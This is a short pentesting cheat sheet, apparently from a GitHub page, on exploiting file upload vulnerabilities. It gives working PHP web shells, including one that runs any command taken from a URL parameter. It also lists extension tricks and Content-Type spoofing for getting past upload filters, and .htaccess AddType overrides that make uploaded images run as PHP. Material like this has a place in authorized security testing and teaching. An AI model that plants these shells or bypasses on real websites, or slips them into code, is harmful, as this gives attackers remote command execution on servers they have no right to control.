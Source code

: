 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

  <?php system('ls') ?>
  
  <?php system('id') ?>
  
  <?php system($_GET['cmd']); ?>

## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.
application/x-php	Old trick if server-side allows this — rare now.
application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.
text/plain	Might bypass if the app only checks for image MIME types.
multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.
text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.
image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

  AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the   jpg

  AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

